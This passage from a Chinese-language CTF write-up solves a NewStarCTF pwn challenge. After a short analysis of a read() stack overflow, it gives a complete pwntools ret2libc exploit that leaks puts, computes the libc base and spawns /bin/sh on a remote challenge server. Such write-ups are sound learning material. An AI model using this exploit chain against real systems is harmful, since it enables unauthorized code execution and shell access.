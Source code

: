 IDA得知`func`函数当中执行了两次`puts`函数和一次`read`函数，再看func函数的栈可以发现可以利用read函数覆盖返回地址：：

![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20241008084153724.png)![](/images/3e2722770b3ad2306eec2945b3d12a3d.png)

推理可以知道是经典的ret2libc：

脚本如下：

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

link=remote("39.106.48.123",22964)
e=ELF("./attachment")
libc=ELF("./libc-2.31.so")

pop_rdi=0x400783

puts_got=e.got['puts']
puts_plt=0x400520 #要使用puts的plt地址

func=0x400686

ret=0x400509
payload1=b"a"*0x58+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(func) #第一次payload

link.recvuntil("NewStarCTF!!!!\n")
link.sendline(payload1)
link.recvline()
puts_addr=u64(link.recvline()[:-1].ljust(8,b'\x00'))
print(hex(puts_addr))

puts_libc=libc.sym["puts"]
libc_base=puts_addr - puts_libc
print(hex(libc_base))

system=libc_base+libc.sym["system"]
print(hex(system))
binsh=libc_base+next(libc.search(b'/bin/sh'))
print(hex(binsh))

payload2=b"a"*0x58+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system) #第二次payload
print(payload2)

link.send(payload2)
link.interactive() 
```

## 12、easy fmt
先附上exp：
